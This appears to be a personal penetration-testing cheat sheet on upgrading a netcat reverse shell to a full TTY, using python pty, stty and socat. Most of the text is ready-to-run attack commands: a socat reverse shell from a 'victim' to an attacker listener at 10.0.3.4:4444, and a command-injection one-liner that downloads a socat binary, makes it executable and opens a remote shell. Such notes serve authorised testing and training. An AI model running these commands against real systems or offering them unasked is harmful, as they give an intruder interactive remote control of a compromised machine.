 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Python pty module

````bash
python -c 'import pty; pty.spawn("/bin/bash")'
````

### Upgrading Netcat with magic

First use python.

````bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
````
Once bash is running in the PTY, background the shell with ``Ctrl-Z``
````bash
# In Kali
$ stty raw -echo
$ fg
````

Then you will be back into the reverse shell.

```bash
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### Using socat

[socat](http://www.dest-unreach.org/socat/doc/socat.html) is like netcat on steroids and is a very powerfull networking swiss-army knife. Socat can be used to pass full TTY’s over TCP connections.

If `socat` is installed on the victim server, you can launch a reverse shell with it. You _must_ catch the connection with `socat` as well to get the full functions.

The following commands will yield a fully interactive TTY reverse shell:

**On Kali (listen)**:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**On Victim (launch)**:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. Pretty sweet.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
